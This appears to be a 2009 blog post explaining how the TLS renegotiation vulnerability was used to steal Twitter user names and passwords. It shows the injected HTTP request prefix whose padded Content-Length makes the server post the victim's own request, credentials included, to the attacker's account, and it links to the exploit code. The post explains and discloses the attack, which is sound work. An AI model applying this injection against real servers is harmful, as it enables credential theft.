```yaml
---
layout: post
title: SSL Renegotiation Vulnerability Exploited
comments: true
---
```


The [SSL renegotiation vulnerability](/2009/11/details-of-ssl-renegotiation-attack/) revealed earlier this month has been [demonstrated](http://www.securegoose.org/2009/11/tls-renegotiation-vulnerability-cve.html) by a Turkish grad student, named Anil Kurmus, to steal user names and passwords of Twitter. The code is also [available](http://perso.telecom-paristech.fr/~kurmus/ssl.c) in the wild.

Yes, it’s totally true that even the attacker can inject a small amount of message at the beginning, he’s still unable to read the encrypted data. But let’s see how Kurmus’ attack works. (Of course, this hole has been patched by Twitter)

You can update your Twitter status with its API by posting your new status to *http://twitter.com/statuses/update.xml*, as well as your user name and password. The message is something like below:

{% highlight http %}
POST /statuses/update.xml HTTP/1.1
Authorization: Basic username:password
User-Agent: curl/7.19.5
Host: twitter.com
Accept:*/*
Content-Length: 22
Content-Type: application/x-www-form-urlencoded
status=your new status
{% endhighlight %}

All that the attacker need to do is to inject a POST request header, and post the victim’s POST request to his own twitter account:

{% highlight http %}
POST /statuses/update.xml HTTP/1.1
Authorization: Basic username:password
User-Agent: curl/7.19.5
Host: twitter.com
Accept:*/*
Content-Length: 140
Content-Type: application/x-www-form-urlencoded
status=POST /statuses/update.xml HTTP/1.1
Authorization: Basic username:password
...
{% endhighlight %}

Obviously, the server would be fooled to post the victim’s credential, and now, the attacker gets the user name and password of the victim.
